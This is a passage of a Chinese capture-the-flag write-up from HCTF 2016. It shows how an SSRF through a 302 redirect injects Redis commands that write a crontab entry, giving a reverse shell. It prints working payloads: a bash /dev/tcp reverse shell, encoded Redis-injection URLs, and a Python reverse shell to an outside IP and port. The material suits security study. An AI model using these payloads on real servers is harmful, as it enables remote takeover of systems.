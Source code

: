 ```
\n*/1 * * * * /bin/bash -i >& /dev/tcp/这里是ip/端口 0>&1\n

```

事实上，漏洞成因和底层系统同样有关，这里必须是centos才能成功写入crontab并执行，这里我们追踪一份payload来看看实现。

payload:
```
http://www.115.28.78.16.xip.io/302.php?u=http%3A%2f%2f192.168.0.10%250d%250a%2a3%250d%250a%25243%250d%250aset%250d%250a%25241%250d%250a1%250d%250a%252462%250d%250a%250a%2a%252F1%2520%2a%2520%2a%2520%2a%2520%2a%2520%252Fbin%252Fbash%2520-i%2520%253E%2526%2520%252Fdev%252Ftcp%252F你的ip%252f12345%25200%253E%25261%250a%250d%250aconfig%2520set%2520dir%2520%252Fvar%252Fspool%252Fcron%252F%250d%250aconfig%2520set%2520dbfilename%2520root%250d%250asave%250d%250a%3A6379%2f
```

请求经过跳转，经过一次urldecode，
```
http://192.168.0.10%0d%0a*3%0d%0a%243%0d%0aset%0d%0a%241%0d%0a1%0d%0a%2462%0d%0a%0a*%2F1%20*%20*%20*%20*%20%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F你的ip%2f12344%200%3E%261%0a%0d%0aconfig%20set%20dir%20%2Fvar%2Fspool%2Fcron%2F%0d%0aconfig%20set%20dbfilename%20root%0d%0asave%0d%0a:6379/
```

然后urldecode进入redis

![](/img/hctf2016/3.png)

注意这里在redis中，只有0d0a可以被当作换行符

我发现我们将数据设置为1，并储存进入**/var/spool/cron/root**，写入内容为

![](/img/hctf2016/4.png)

写入文件的内容是这样的，前后被插入了特殊的数据

![](/img/hctf2016/5.png)

事实上，在除centos以外系统上，redis是redis用户跑起来的，所以写的文件也是redis用户组，并没有权限写入cron文件夹，并且，在其他系统中，这个配置文件有较为严格的格式要求，如果存在奇怪的数据，会导致命令执行失败。

还有一个特别的问题，redis中储存数据为键值对形式，所以其实把内容写入2，就不会覆盖了，我们来看看测试

![](/img/hctf2016/6.png)

![](/img/hctf2016/7.png)

成功了，事实上，hint5也就是因此存在的，我们成功拿到了反弹的shell


### 留在最后.... ###

由于在部分系统中，并不能正确的处理输入输出流，所以最开始的出题思路为python一句话弹shell，但是在复现过程中遇到了问题，假设我使用

```
http://www.115.28.78.16.xip.io/302.php?u=http%3A%2f%2f192.168.0.10%250d%250a%2a3%250d%250a%25243%250d%250aset%250d%250a%25241%250d%250a1%250d%250a%2524255%250d%250a%250A%252A%2f1%2520%252A%2520%252A%2520%252A%2520%252A%2520%2fusr%2fbin%2fpython%2520-c%2520%2527import%2520socket%252Csubprocess%252Cos%252Csys%253Bs%253Dsocket.socket%2528socket.AF_INET%252Csocket.SOCK_STREAM%2529%253Bs.connect%2528%2528%2522115.28.78.16%2522%252C6666%2529%2529%253Bos.dup2%2528s.fileno%2528%2529%252C0%2529%253B%2520os.dup2%2528s.fileno%2528%2529%252C1%2529%253B%2520os.dup2%2528s.fileno%2528%2529%252C2%2529%253Bp%253Dsubprocess.call%2528%255B%2522%2fbin%2fsh%2522%252C%2522-i%2522%255D%2529%253B%2527%250A%250d%250aconfig%2520set%2520dir%2520%252Fvar%252Fspool%252Fcron%252F%250d%250aconfig%2520set%2520dbfilename%2520root%250d%250asave%250d%250a%3A6379%2f
```
